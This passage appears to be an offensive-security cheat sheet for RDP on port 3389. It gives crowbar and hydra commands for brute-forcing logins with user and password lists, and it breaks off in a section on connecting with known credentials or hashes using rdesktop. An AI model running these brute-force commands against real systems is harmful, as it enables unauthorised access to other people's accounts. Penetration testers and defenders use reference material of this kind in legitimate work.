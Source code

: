 
## RDP - 3389

### Brute force

```
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

### Connect with known credentials / hash

```
rdesktop -u <USERNAME> <IP>
